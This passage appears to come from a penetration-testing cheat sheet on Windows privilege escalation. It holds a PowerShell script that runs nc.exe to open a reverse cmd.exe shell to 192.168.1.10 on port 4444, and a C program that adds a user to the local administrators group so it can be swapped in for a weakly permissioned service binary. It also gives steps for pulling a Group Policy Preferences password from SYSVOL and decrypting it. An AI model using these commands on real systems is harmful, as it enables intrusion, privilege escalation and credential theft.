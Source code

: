                $username = '<username here>'
               $password = '<password here>'
               $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
               $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
               Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("-nc","192.168.1.10","4444","-e","cmd.exe") -WorkingDirectory C:\Users\Public

             Next run this script using powershell.exe:

             `powershell -ExecutionPolicy ByPass -command "& { . C:\Users\public\PowerShellRunAs.ps1; }"`


-   Windows Service Configuration Viewer - Check for misconfigurations
    in services that can lead to privilege escalation. You can replace
    the executable with your own and have windows execute whatever code
    you want as the privileged user.  
    icacls scsiaccess.exe

         scsiaccess.exe  
         NT AUTHORITY\SYSTEM:(I)(F)  
         BUILTIN\Administrators:(I)(F)  
         BUILTIN\Users:(I)(RX)  
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)  
         Everyone:(I)(F)

-   Compile a custom add user command in windows using C  

      ```
      root@kali:~# cat useradd.c  
      #include <stdlib.h> /* system, NULL, EXIT_FAILURE */  
      int main ()  
      {  
      int i;  
      i=system ("net localgroup administrators low /add");  
      return 0;  
      }
      ```  

      `i686-w64-mingw32-gcc -o scsiaccess.exe useradd.c`

-   Group Policy Preferences (GPP)  
    A common useful misconfiguration found in modern domain environments
    is unprotected Windows GPP settings files

    -   map the Domain controller SYSVOL share  
        
        `net use z:\\dc01\SYSVOL`

    -   Find the GPP file: Groups.xml  
        
        `dir /s Groups.xml`

    -   Review the contents for passwords  
        
        `type Groups.xml`

    -   Decrypt using GPP Decrypt  
        
        `gpp-decrypt riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB`
        